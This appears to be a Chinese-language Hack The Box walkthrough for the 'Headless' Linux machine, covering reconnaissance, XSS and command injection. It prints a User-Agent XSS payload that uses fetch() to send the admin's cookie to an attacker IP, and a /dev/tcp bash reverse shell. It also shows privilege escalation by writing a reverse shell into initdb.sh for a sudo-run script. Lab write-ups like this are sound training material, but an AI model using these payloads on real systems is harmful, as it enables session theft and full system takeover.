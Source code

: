```yaml
---
title: "HTB-Headless"
date: 2025-01-18
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Headless  
❯ nmap headless.htb      

Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

进入**5000**端口查看，自动跳转到一个**support**路由

![](./images/image-76.png)

## Dirsearch

```
[root@kali] /home/kali/Headless  
❯ dirsearch -u headless.htb:5000                                                         
Target: http://headless.htb:5000/

Starting:                                                                                                        
401 - 317B  - /dashboard                                        
200 - 2KB - /support                                          
                                                                             
Task Completed                 
```

进入**dashboard**，发现需要身份认证

![](./images/image-77.png)

## SSTI to XSS

查看HTTP头发现是用**Python**搭建的，应该是**Flask**

![](./images/image-78.png)

尝试在**message**部分写入**{{9\*9}}**，被检测到了，并且会发送给**Admin**

![](./images/image-79.png)

根据这个响应，猜测是要把带有恶意**XSS**代码的**HTTP**头发送给**Admin**，然后获取到**Cookie**

在这里选用**User-Agent**字段进行**XSS**注入

```
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: <img src=1111 onerror=fetch('http://10.10.xx.xx/?cookie='+document.cookie);>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://headless.htb:5000
Connection: keep-alive
Referer: http://headless.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=123&lname=123&email=123%40qq.com&phone=123&message=%7B%7B9*9%7D%7D
```

设立监听，获取到**cookie**

![](./images/image-80.png)

## User

进入到**Dashboard**后是一个生成报告的工具

![](./images/image-81.png)

抓包后尝试命令执行，可以看到读取到目录文件

![](./images/image-82.png)

```
date=2023-09-15;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.xx.xx/xxxx+0>%261'
```

设立监听获取到反弹**shell**

![](./images/image-83.png)

获取到user.txt

![](./images/image-84.png)

## Root

发现一个具有特殊权限的命令**syscheck**

![](./images/image-85.png)

```

#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

使用**ChatGPT**进行分析，该脚本的目的是定期检查系统状态并提供以下信息：

1. 当前系统的内核文件的最后修改时间。

3. 系统根目录的可用磁盘空间。

5. 系统负载平均值。

7. 检查并启动数据库服务（`initdb.sh`）。

如果不是 **root** 用户，脚本会直接退出。

```
echo 'bash -c "bash -i >& /dev/tcp/10.10.16.12/5555 0>&1"' > initdb.sh
```

![](./images/image-86.png)

运行，另一边监听端口，获取到**Root shell**

![](./images/image-87.png)

## Summary

`User`：**SSTI**的**waf**引发了**XSS**漏洞，获取到管理员的**Cookie**，并且在**dashboard**里可以进行命令执行，获取到反弹**Shell**

`Root`：具有特殊权限的命令**syscheck**，只需把反弹**Shell**语句写入**initdb.sh**，在执行**syscheck**就能获取到**Root**权限
